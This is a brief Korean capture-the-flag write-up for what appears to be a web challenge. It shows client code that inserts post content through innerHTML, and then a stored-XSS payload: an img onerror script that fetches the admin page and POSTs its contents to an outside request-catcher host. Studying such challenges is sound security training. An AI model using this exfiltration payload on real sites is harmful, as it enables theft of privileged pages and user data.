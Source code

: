 ```javascript
try {
    const response = await fetch(`/api/post/${postId}`);

    if (!response.ok) {
        throw new Error('Post not found');
    }

    const post = await response.json();

    document.getElementById('post-id').innerHTML = `Post ID ${postId}`;
    document.getElementById('post-content').innerHTML = post.message;

} catch (error) {
    document.querySelector('.post-container').innerHTML = `
 <div class="error-message">
 <h2>Error loading post</h2>
 <p>${error.message}</p>
 </div>
 `;
}
```

입력한 문자열이 `innerHTML`로 페이지에 삽입되기 때문에 XSS가 발생할 수 있다  
<br>

---

```html
<image src='x' onerror= "

 fetch('https://mavs-fan.chall.lac.tf/admin/', {
 method: 'GET',
 headers: {
 'Accept': 'text/html'
 }
 })
 .then(response => response.text())
 .then(data => {
 fetch('https://alezusp.request.dreamhack.games', { 
 method: 'POST',
 headers: {
 'Content-Type': 'text/plain'
 },
 body: data
 });
 })
 .catch(error => console.error('Error:', error));

"/>
```

이렇게 이미지 태그 `onerror`에 스크립트 넣으면 된다  
사용자가 페이지에 접속하면 `/admin`{: .filepath}으로 GET 요청을 보내고 응답을 나의 서버로 전달하는 방식이다
